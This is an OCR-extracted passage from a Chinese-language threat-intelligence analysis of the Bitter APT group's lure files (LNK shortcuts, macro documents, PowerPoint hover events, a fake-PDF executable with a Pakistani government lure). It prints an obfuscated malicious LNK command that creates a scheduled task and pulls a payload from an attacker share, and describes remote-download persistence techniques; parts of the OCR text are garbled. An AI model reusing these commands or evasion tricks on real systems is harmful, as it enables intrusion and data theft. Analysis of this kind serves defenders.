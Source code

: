 另外，除了这种通过自身携带VBS代码的LNK文件，还有同上述PDF类型一样，从远程地址下载一个VBS文件并执行的LNK文件，此处不再说明。  

#### 类型四:  

这种类型的LKN文件创建名为“AMDNetServicesUA”计划任务，然后netuse访问远程共享资源，继而读取位于远端的载荷，最终使用CMD执行后续的载荷。  

--headless cmd start /min /c sta rt https://adobe.com/au/acrobat&s^ch^ta^sk^s /create /f /sc minute /mo 16 /tn AMDNetSer vicesUA /tr \"conhost.exe --headless cmd start /min /c net use U: lll\kimfilippovision.com \directory\\&net use U: /delete&more Ill\kimfilippovision.com\\directory\\%computerna me%_%username%.txtl c^m^d\""  

### 7.宏文档  

蔓灵花组织在近一年期间攻击过程中也使用过宏文档作为入口攻击载荷，但这类类型较少，下图是其中一个宏文档打开的伪装内容，是一份个人信息收集模板。  

![](https://cdn-mineru.openxlab.org.cn/extract/9a0c3ba5-8952-4d15-ae76-e0dfd3f2b371/f0ac0476294b9211b03407a0eb43fa8a1d62e971b00ad70f5f0dd8f0b2d41415.jpg)  

当受害者打开该文档并启用宏，就会执行内嵌在文档中的恶意宏代码，其主要作用是创建一个名为“EdgeUpdateCoreUA”的计划任务，该计划任务会远程下载一份名为“pit.bl”文件，并使用 CMD 执行。  

![](https://cdn-mineru.openxlab.org.cn/extract/9a0c3ba5-8952-4d15-ae76-e0dfd3f2b371/fef402603d9916ea20ba54339d47e6290b8ab67be76d11e8149b18d10e38a4c3.jpg)  

### 8.PPT文档  

蔓灵花组织使用PPT文档主要是利用图片单击鼠标和鼠标悬停事件来执行相应恶意功能，这种样本免杀效果很好，当时捕获时VT上各家引擎O报毒。下面以其中一个设置了鼠标悬停事件的PPT为例进行分析，打开该PPT，通过点击PPT中的图片操作设置，就能看到攻击者设置鼠标悬停操作。  

![](https://cdn-mineru.openxlab.org.cn/extract/9a0c3ba5-8952-4d15-ae76-e0dfd3f2b371/ee4c5babeeccdba195ee0377e9d7f82f3e5bc8e5875c4eec1809eeb1b5e64e39.jpg)  

具体执行的命令如下：  

![](https://cdn-mineru.openxlab.org.cn/extract/9a0c3ba5-8952-4d15-ae76-e0dfd3f2b371/fa3516b1d865dfadaee2c878581268908188f6d564df804d20ca1bdd792afa93.jpg)  

其功能主要是创建计划任务以便持久化，计划任务是通过msiexec执行远端下载捆绑后门的MSI程序，从而窃取敏感信息。  

### 9.PE文件  

除了上述使用到的非PE入口载荷外，蔓灵花组织近期还使用了C#编译的可执行文件作为入口攻击载荷，蔓灵花组织将该载荷和伪装文件打包成一个ZIP压缩包进行传递，并使用相同文件名诱导  

用户，如下所示。  

<html><body><table><tr><td>名称</td><td>修改日期</td><td>类型</td><td>大小</td></tr><tr><td>Minutes_of_15th_Session_of PsC.pdf</td><td>2024/4/2316:19</td><td>AdobeAcrobat.</td><td>2,838KB</td></tr><tr><td>Minutes_of_15th Session_of PsC.pdf.exe</td><td>2024/4/2317:47</td><td>应用程序</td><td>77KB</td></tr></table></body></html>  

诱饵如下:  

# MINUTESOFTHEMEETINGOF15THSESSIONOFPROVINCIALSTEERINGCOMMITTEEONILLEGALSPECTRU  

The $15^{\circ}$ meetingof theProvincial SteeringCommitteeonlgal spectrumwasheldon11.03.2024at 1100hoursunderthechairmanshipof AdditionalChiefSecretaryHome&TribalAffairsDeparmentKhyberPakhtunkhwaatConferenceRoomHome&TribalAffairsDepartment.Listofattendees isattached.  
